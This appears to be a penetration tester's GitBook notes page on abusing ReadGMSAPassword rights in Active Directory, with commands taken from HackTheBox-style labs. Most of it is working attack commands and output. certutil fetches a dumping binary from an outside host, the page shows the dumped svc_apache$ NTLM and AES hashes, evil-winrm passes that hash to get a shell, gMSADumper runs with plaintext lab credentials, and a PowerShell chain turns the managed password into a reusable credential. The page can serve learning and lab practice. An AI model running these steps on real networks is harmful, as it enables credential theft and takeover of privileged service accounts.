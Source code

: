 # GMSA Password Read

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges. Environment: Search from HacktheBox

### Initial Detection:

![](<../../../.gitbook/assets/image (47).png>)

### Reading GMSA using GMSAPasswordReader.exe&#x20;

If users can read the GMSA, it means that we can upload a binary called "GMSAPasswordReader.exe".&#x20;

```
GMSAPasswordReader.exe --accountname ''
```

```
*Evil-WinRM* PS C:\Users\enox> certutil -urlcache -f http://192.168.49.105:443/GMSAPasswordReader.exe GMSAPasswordReader.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\enox> . ./GMSAPasswordReader.exe --accountname 'svc_apache'
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 1808D2C09D9E6A0EDC419A4B13868C92
[*]       aes128_cts_hmac_sha1 : 8146F49C50041D6F8F70D45D9F26AF27
[*]       aes256_cts_hmac_sha1 : 810B1963081C261DBDA3E91618943A59EA0A9B6DD48BAFA5E30098D0F7412707
[*]       des_cbc_md5          : B6E961D04679DA29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 45EA837EDB477DDA17B5822AD768D0D7
[*]       aes128_cts_hmac_sha1 : 9F234A0EEC90B6AF9FC395D85CE938D5
[*]       aes256_cts_hmac_sha1 : 90321B028FB63CD44F37BA7F6829F5CBE4DAA1EE926A909EA9CFC607B52A0CA4
[*]       des_cbc_md5          : B0750E611F7FA14F

```

The rc4\_hmac hash can be used interchangebly with the NTLM hash.

```
evil-winrm -i 192.168.105.165 -u svc_apache$ -H 45EA837EDB477DDA17B5822AD768D0D7                                

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_apache$\Documents> 
```

So we can just evil-winrm into that machine.&#x20;

### Remotely Read GMSA Passwords&#x20;

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

If we for some reason do not have users who can authenticate to winrm we could posssibly use this to retrieve the hash remotely.&#x20;

```
python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d 'intelligence.htb'
```

#### Converting the GMSA to Powershell Variable for Future Use

So lets say we compromised a user that has GMSA read on user2 and user2 has privileges to do somehting else, we shuold use the following chaing of commands to store the GMSApassword of user2 for future use.

In BloodHound Take a look at the Extra Properties tab of the user we can read hte GMSA password for. The CN:<<mark style="color:red;">BLAHBLAHBLAH</mark>> is important.&#x20;

```
$gmsa = Get-ADServiceAccount -Identity <CN NAME OF ACCOUNT WE WANT TO COMPROMISE> -Properties 'msds-managedpassword'
```

```
$mp = $gmsa.'msds-managedpassword'
```

```
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp
```

```
$passwd = $mp1.'currentpassword'
```

```
$user = '<CN of User of we can read gmsa password>'
```

```
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
```

```
$cred = new-object system.management.automation.pscredential $user,$secpass
```

Now we can use the variable creds for future exploitation.&#x20;
